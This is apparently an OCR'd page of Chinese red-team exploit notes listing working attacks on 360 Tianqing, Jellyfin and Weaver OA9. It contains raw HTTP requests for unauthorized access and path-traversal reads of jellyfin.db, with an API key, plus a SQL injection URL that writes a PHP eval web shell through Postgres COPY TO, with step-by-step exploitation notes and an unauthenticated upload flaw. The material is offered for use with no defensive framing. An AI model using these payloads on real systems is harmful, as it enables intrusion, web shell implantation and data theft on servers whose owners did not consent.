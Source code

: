     ------WebKitFormBoundaryfcKRltGv
    Content-Disposition: form-data; name="file"; filename="1.png"
    Content-Type: image/avif
    
    1
    ------WebKitFormBoundaryfcKRltGv--

**天擎** 

    越权访问：GET /api/dbstat/gettablessize HTTP/1.1

**Jellyfin任意文件读取**

    GET /Audio/anything/hls/..\data\jellyfin.db/stream.mp3/ HTTP/1.1
    GET /Videos/anything/hls/m/..\data\jellyfin.db HTTP/1.1
    GET /Videos/anything/hls/..\data\jellyfin.db/stream.m3u8/?api_key=4c5750626da14b0a804977b09bf3d8f7 HTTP/1.1

**天擎-前台sql注入**

注入写shell:

    https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--

利用过程:  
1\. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell  
2\. 通过注入点，创建一张表 O  
3\. 为 表O 添加一个新字段 T 并且写入shell内容  
4\. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)  
5\. 删除 表O

**泛微OA9 前台无限制Getshell**  
 

漏洞位于:/page/exportImport/uploadOperation.jsp文件中

Jsp流程大概是:判断请求是否是multipart请求,然就没有了,直接上传了,啊哈哈哈哈哈

重点关注File file=new File(savepath+filename),

Filename参数,是前台可控的,并且没有做任何过滤限制

![图片](2021.4.8%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/1_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)
